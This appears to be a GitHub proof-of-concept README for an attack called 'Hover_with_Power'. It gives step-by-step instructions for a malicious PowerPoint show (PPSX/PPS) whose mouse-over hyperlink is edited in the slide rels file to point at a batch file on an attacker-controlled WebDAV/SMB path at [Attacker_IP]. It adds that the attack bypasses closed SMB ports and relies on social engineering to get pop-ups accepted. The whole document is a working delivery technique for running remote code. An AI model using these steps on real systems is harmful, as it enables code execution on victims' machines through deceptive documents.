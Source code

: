 "# Hover_with_Power" 

## Steps to reproduce the exploit

1. In Powerpoint it is possible to set an action on a mouse over or mouse click 

2. We can set a file to be executed and this was exploited by attackers in 2017 where a particular powershell command could be run 

3. Since that vulnerability was patched, this one is an extension to it where instead of using "Run Program" action we use "HyperLink To" action and set it to a "Other file"

4. Then we can select a file within the system.

5. Save the Powerpoint file as PPSX or PPS

6. Then open the PPSX file using a ZIP program and change the value in "\ppt\slides_rels\slide1.xml.rels"  of rID which is connected to your mouse over event to "file:///\[Attacker_IP]\webdavfolder\file.bat"

7. Due to the way SMB connections work in Windows 10, SMB connections over Internet are possible even if SMB ports (445/139) are closed  if a webserver supporting WEBDAV extension is hosted by an attacker

8. Now hover over your the text and observe that user just needs to acccept the pop-ups and this allows the program to be executed

9. Combined with social engineering this attack would work completely.

![](exploit.gif)

